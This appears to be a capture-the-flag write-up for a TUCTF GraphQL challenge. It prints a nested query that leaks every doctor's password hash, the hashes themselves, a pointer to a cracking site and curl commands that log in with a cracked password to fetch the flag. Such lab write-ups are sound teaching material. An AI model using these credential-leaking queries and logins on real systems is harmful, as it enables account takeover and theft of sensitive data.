


After running a full introspection query, I got the following model relationship:



Although the credentials provided only grant limited access to the data, a flaw in the implementation allows us to retrieve all patients' and doctors' passwords.

```
query {
      allPatients {        
            doctor {           
                  name
                  password               
            }
      }
}
```
The response:
```
{
  "data": {
    "allPatients": [
      {
        "doctor": {
          "name": "Jack",
          "password": "e6a82bc32533b8009bd4b737152c6eded29322c7bcce9f0e622bc775559662a0"
        }
      },
      {
        "doctor": {
          "name": "Kate",
          "password": "b3e3b64e350799b980ab420de9668d81fa0dd7a9d7a3532b8bd4d18a7e2abaab"
        }
      },
      {
        "doctor": {
          "name": "Frank",
          "password": "0b76c134796f9e09f70901eb9fd87ed09e93ae317f6a598a870b7b2158d49dd4"
        }
      },
      {
        "doctor": {
          "name": "Kate",
          "password": "b3e3b64e350799b980ab420de9668d81fa0dd7a9d7a3532b8bd4d18a7e2abaab"
        }
      },
      {
        .
        .
        .
```
Get these hashes on [CrackStation](https://crackstation.net/) and login as Doctor



```
curl -X POST "https://med-graph.tuctf.com/" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "username=Jack&password=569043&role=doctor" \
  -c c
curl "https://med-graph.tuctf.com/dashboard" -b c | grep TUCTF
rm c
```
```
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   811  100   811    0     0    467      0  0:00:01  0:00:01 --:--:--   467
        <p style="text-align: center;">TUCTF{w3_7h1nk_1n_6r4ph5}</p>
```